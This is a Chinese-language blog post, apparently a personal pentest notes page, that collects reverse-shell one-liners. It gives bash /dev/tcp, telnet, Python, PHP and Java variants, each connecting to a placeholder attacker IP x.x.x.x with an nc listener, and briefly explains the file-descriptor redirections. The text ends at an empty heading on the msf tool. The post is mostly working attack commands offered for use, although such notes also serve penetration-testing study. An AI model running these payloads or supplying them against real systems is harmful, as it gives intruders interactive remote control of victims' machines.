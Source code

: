 ```yaml
---
layout: post
title: 反弹WebShell
subtitle: 反弹WebShell
date: 2023-08-02 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
---
```

### bash

```shell
# 攻击机
nc -lvvp port
# 目标机
bash -i >& /dev/tcp/x.x.x.x/port 0>&1
```

```shell
# 方法2
exec 0&0 2>&0

0<&196;exec 196<>/dev/tcp/x.x.x.x/4444; sh <&196 >&196 2>&196

/bin/bash  -i > /dev/tcp/x.x.x.x/8080 0<&1 2>&1

# 方法3
exec 5<>/dev/tcp/x.x.x.x/4444;cat <&5 | while read line; do $line 2>&5 >&5; done
```

* **bash -i**  打开一个交互的bash
* **>&**  将标准错误输出重定向到标准输出
* **/dev/tcp/x.x.x.x/port**  意为调用socket,建立socket连接,其中x.x.x.x为要反弹到的主机ip，port为端口
* **0>&1**  标准输入重定向到标准输出，实现你与反弹出来的shell的交互

**/dev/tcp/** 是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在/dev/udp/。

|                |                    |
| -------------- | ------------------ |
| 标准输入 (stdin)   | 代码为 0 ，使用 < 或 <<   |
| 标准输出 (stdout)  | 代码为 1 ，使用 > 或 >>   |
| 标准错误输出(stderr) | 代码为 2 ，使用 2> 或 2>> |

### Telnet

```shell
# 攻击机打开两个终端开启两个端口，分别用来输入和输出
nc -lvvp 4444
nc -lvvp 5555
# 目标主机
telnet x.x.x.x 4444 | /bin/bash | telnet x.x.x.x 5555
```

```shell
# 方法2
rm -f /tmp/p; mknod /tmp/p p && telnet x.x.x.x 4444 0/tmp/p
```
### Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
### PHP

```php
php -r '$sock=fsockopen("x.x.x.x",5555);exec("/bin/bash -i <&3 >&3 2>&3");'
```
### JAVA

```java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
    public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/x.x.x.x/5555;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```
### 使用msf工具